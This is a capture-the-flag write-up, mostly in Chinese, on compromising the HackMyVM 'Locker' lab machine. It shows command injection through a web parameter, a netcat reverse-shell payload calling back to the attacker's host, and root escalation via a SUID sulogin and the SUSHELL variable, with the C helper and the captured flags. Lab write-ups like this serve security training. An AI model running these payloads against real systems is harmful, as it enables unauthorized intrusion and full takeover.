



# Locker

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-01-23

✔️ MD5 // fbbb0b62ef6c684090506202483ab712

☠ Root // 117

💀 User // 115

📝Notes //
Hack and Fun!

:::

## 靶机启动



靶机 IP：

```plaintext
192.168.56.111
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.111
Host is up (0.00050s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:5E:3D:81 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## web 服务探测

尝试直接访问



查看原始返回

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.56.111
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Thu, 28 Dec 2023 09:49:49 GMT
ETag: W/"600a9d7c-8e"
Last-Modified: Fri, 22 Jan 2021 09:40:12 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<h1>SUPER LOCKER</h1>
<pre>
Use root password to unlock our powers!
aAaaaAAaaAaAAaAAaAAaaaA!
<a href="/locker.php?image=1">Model 1</a>
</pre>
```

尝试点击链接，发现只返回了一张图片



对访问的链接进行分析：

```plaintext
http://192.168.56.111/locker.php?image=3
```

只有一个参数点：`image` ，编写脚本进行扫描

```python
import requests

base_url = "http://192.168.56.111/locker.php?image="

for i in range(0, 10):
    res = requests.get(base_url + str(i)).text
    with open("./" + str(i), "w+") as f:
        f.write(res)
```

发现只有编号 1，2，3 有返回数据，尝试对图像数据进行分析，并未发现存在图像隐写

尝试对参数点进行 fuzz，发现存在命令执行

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Locker]
└──╼ $http get http://192.168.56.111/locker.php?image=;pwd
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 28 Dec 2023 10:07:25 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked


/home/randark/tmp/HackMyVM-Locker
```

尝试直接反弹 shell

```plaintext
http://192.168.56.111/locker.php?image=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell

```plaintext
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[18:12:43] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[18:13:14] received connection from 192.168.56.111:60486                                                                                                                                                                         bind.py:84
[18:13:15] 192.168.56.111:60486: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@locker:/var/www/html$ whoami
www-data
```

## 提权探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/sulogin
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

可以发现 `/usr/sbin/sulogin` 可能存在利用点

## 利用 `sulogin`

查看 `sulogin` 的手册

```plaintext
SULOGIN(8)                                                                                              System Administration                                                                                              SULOGIN(8)

NAME
       sulogin - single-user login

SYNOPSIS
       sulogin [options] [tty]

DESCRIPTION
       sulogin is invoked by init when the system goes into single-user mode.

       The user is prompted:

            Give root password for system maintenance
            (or type Control-D for normal startup):

       If the root account is locked and --force is specified, no password is required.

       sulogin will be connected to the current terminal, or to the optional tty device that can be specified on the command line (typically /dev/console).

       When the user exits from the single-user shell, or presses control-D at the prompt, the system will continue to boot.

OPTIONS
       -e, --force
              If  the default method of obtaining the root password from the system via getpwnam(3) fails, then examine /etc/passwd and /etc/shadow to get the password.  If these files are damaged or nonexistent, or when root ac-
              count is locked by '!' or '*' at the begin of the password then sulogin will start a root shell without asking for a password.

              Only use the -e option if you are sure the console is physically protected against unauthorized access.

       -p, --login-shell
              Specifying this option causes sulogin to start the shell process as a login shell.

       -t, --timeout seconds
              Specify the maximum amount of time to wait for user input.  By default, sulogin will wait forever.

       -h, --help
              Display help text and exit.

       -V, --version
              Display version information and exit.

ENVIRONMENT VARIABLES
       sulogin looks for the environment variable SUSHELL or sushell to determine what shell to start.  If the environment variable is not set, it will try to execute root's shell from /etc/passwd.  If that fails,  it  will  fall
       back to /bin/sh.

AUTHOR
       sulogin was written by Miquel van Smoorenburg for sysvinit and later ported to util-linux by Dave Reisner and Karel Zak.

AVAILABILITY
       The sulogin command is part of the util-linux package and is available from Linux Kernel Archive <https://www.kernel.org/pub/linux/utils/util-linux/>.

util-linux                                                                                                    July 2014                                                                                                    SULOGIN(8)
```

发现环境变量 `SUSHELL` 可以控制 `sulogin` 的行为，尝试编写一个程序进行利用

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

编译好之后，上传到靶机，然后设置环境变量

```shell
export SUSHELL=/tmp/a.out
```

即可进行提权

```shell
(remote) www-data@locker:/tmp$ export SUSHELL=/tmp/a.out
(remote) www-data@locker:/tmp$ echo $SUSHELL
/tmp/a.out
(remote) www-data@locker:/tmp$ sulogin -e
Press Enter for maintenance
(or press Control-D to continue): 
root@locker:~# whoami
root
```

## user pwned

```shell
root@locker:/home/tolocker# cat user.txt 
flaglockeryes
```

## root pwned

```shell
root@locker:~# cat root.txt 
igotroothere
```
